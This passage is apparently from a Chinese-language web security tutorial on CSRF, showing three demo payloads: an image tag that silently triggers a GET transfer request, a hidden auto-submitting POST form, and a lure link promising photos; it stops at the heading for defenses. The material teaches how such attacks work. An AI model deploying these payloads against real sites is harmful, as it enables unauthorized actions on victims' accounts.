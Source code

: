 ##### 类型：

- **自动发起 Get 请求**

  ```html
  <!DOCTYPE html>
  <html>
    <body>
      <h1>黑客的站点：CSRF 攻击演示</h1>
      <img src="https://jsliang.top/index.html?user=hacker&number=100">
    </body>
  </html>
  ```

  黑客将转账的请求接口隐藏在 `img` 标签内，欺骗浏览器这是一张图片资源。

  当该页面被加载时，浏览器会自动发起 `img` 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 块就被转移到黑客的账户上去了。

- **自动发起 POST 请求**

  ```html
  <!DOCTYPE html>
  <html>
  <body>
    <h1>黑客的站点：CSRF 攻击演示</h1>
    <form id='hacker-form' action="https://jsliang.top" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script>
      document.getElementById('hacker-form').submit();
    </script>
  </body>
  </html>
  ```

  在页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。

  当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。

  因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

- **引诱用户点击链接**

  ```html
  <div>
    <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg>
    </div>
  <div>
    <a href="https://jsliang.top?user=hacker&number=100" taget="_blank">
      点击下载美女照片
    </a>
  </div>
  ```

  传说中的色诱，或者 “点击即送 100w 元” 之类的。

##### 防御措施：
